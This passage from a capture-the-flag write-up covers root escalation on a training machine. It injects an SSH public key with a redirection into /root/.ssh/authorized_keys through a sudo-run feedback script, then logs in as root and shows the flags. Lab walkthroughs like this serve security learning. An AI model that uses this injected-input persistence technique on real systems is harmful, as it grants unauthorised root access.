-rw-r--r-- 1 root root 12 Jun  * **:** /tmp/pwned
deku@ip-10-10-249-231:~$ 
```
### What you see in /tmp/pwned:
```bash
echo ROOTED
```
**But we have a problem this means our input was not executed as a command but was instead literally echoed and saved into the file. Our last option is to generate SSH keys, since characters like /, =, +, and @ are not filtered.**

## We can also checked in logs file
```bash
deku@ip-10-10-11-66:/var/log$ file feedback.txt
feedback.txt: symbolic link to /dev/null

deku@ip-10-10-11-66:/var/log$ ls -al feedback.txt
lrwxrwxrwx 1 root root 9 Jul  9  2023 feedback.txt -> /dev/null

deku@ip-10-10-11-66:/var/log$ cat feedback.txt
deku@ip-10-10-11-66:/var/log$ 
```
## 🏁 Next Steps — Get the Flag or Root Shell
Now that you’ve confirmed code execution as root, here is practical exploits to go further.
- On your Kali machine (or attacker VM):
  - Generate your SSH key if you don’t have one already in current directory
```bash
❯ ssh-keygen -t rsa -f ./mykey
```
```bash
❯ cat mykey.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDQ/V2bAb+VjCePZQr7WZ9ZsAHyrK2HoO1JlL7vcEC3QKV6goCZinB3WP/XOIgXglSTxMLsXvOklFY581fAyXQORvkZzJccv+3NagYfcQHR0Jszjt2mtInM1AA9pBc8t1Oa+PW5o0Uvy6DSO4mV+OrAc/eFZpZE/EE9aOihdbwxAbI3a4aDcjGwJkvpppX/tcm+yVQA4bPr5pudZh/uKGEh9ldEACZ9I6mtdu7c6xRrJwqoJf59jynsfwa79XkvqJdPHX2dJPogb5hrj9azBLK1ruJWi8/acUBriL05FkeSzrZGWgjHGokEfReEWP5R3i7YBYoJ4G7YGGCBJwZr0Fu+0hNX6+eERjlcTdwg52XULZh/No3HZJFuqHrNZei2zpPXsmZ4NMDVkIlTsjutHMvPOt4K1LDcBSPHM73xdpMMHQfA7QjbljhzhHKtg4ycC+A9xi03/sQC667zn0lDfHa0LEKsty4luJgish47m84/RRwVa3fkfYB9vDLy2YMQ9Gc= l0n3m4n@kali

```
- Inject your public key via the vulnerable script and save it to /root/.ssh/authorized_keys
```bash
sudo /opt/NewComponent/feedback.sh
```

```bash
deku@ip-10-10-11-66:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDQ/V2bAb+VjCePZQr7WZ9ZsAHyrK2HoO1JlL7vcEC3QKV6goCZinB3WP/XOIgXglSTxMLsXvOklFY581fAyXQORvkZzJccv+3NagYfcQHR0Jszjt2mtInM1AA9pBc8t1Oa+PW5o0Uvy6DSO4mV+OrAc/eFZpZE/EE9aOihdbwxAbI3a4aDcjGwJkvpppX/tcm+yVQA4bPr5pudZh/uKGEh9ldEACZ9I6mtdu7c6xRrJwqoJf59jynsfwa79XkvqJdPHX2dJPogb5hrj9azBLK1ruJWi8/acUBriL05FkeSzrZGWgjHGokEfReEWP5R3i7YBYoJ4G7YGGCBJwZr0Fu+0hNX6+eERjlcTdwg52XULZh/No3HZJFuqHrNZei2zpPXsmZ4NMDVkIlTsjutHMvPOt4K1LDcBSPHM73xdpMMHQfA7QjbljhzhHKtg4ycC+A9xi03/sQC667zn0lDfHa0LEKsty4luJgish47m84/RRwVa3fkfYB9vDLy2YMQ9Gc= l0n3m4n@kali > /root/.ssh/authorized_keys
It is This:
Feedback successfully saved.
```
```bash
❯ chmod 600 mykey

❯ lsd -al mykey
.rw------- l0n3m4n l0n3m4n 2.6 KB [REDACTED] **:**:** 2025  mykey

❯ file mykey
mykey: OpenSSH private key
~/thm/ua ❯ 
```
### Flags   
```bash
deku@ip-10-10-113-44:~$ cat user.txt
THM{W3lC0m3_D3kU_1A_**f0rAll??}
deku@ip-10-10-113-44:~$ 
```

```bash
❯ ssh -p 22 -i mykey root@10.10.249.231
Enter passphrase for key 'mykey': 
```
```bash
oot@ip-10-10-249-231:~# cat root.txt
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{Y0U_4r3_7h3_******_1_H3r0}

root@ip-10-10-249-231:~# 
```

